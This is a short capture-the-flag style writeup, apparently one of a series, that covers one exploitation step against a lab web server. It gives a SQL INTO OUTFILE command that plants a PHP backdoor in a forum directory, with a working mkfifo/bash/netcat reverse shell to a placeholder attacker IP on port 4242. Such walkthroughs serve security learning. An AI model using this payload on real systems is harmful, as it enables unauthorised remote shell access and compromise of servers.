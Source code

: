 # Writeup 3 - Reverse shell injection

## Writeups Map

![Imgur](https://i.imgur.com/gb4HAhr.png)

## Summary

- [8.1 Injecting a reverse shell](#81-injecting-a-reverse-shell)

## Exploitation

### 8.1 Injecting a reverse shell

> All the following steps can lead here:
>
> - [7. Logging into Phpmyadmin](./Writeup1.md#7-logging-into-phpmyadmin)

We will use a SQL command to create a new file inside the forum pages directory

```SQL
SELECT '<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc <ip_addr> 4242 >/tmp/f"); ?>' INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

This will inject a backdoor which spawn a reverse shell

This means we have to open netcat on our machine to listen on port 4242 and next execute the backdoor

> From this step you can continue to all the following steps
>
> - [9.2 Getting a FTP access](./Writeup1.md#92-getting-a-ftp-access)
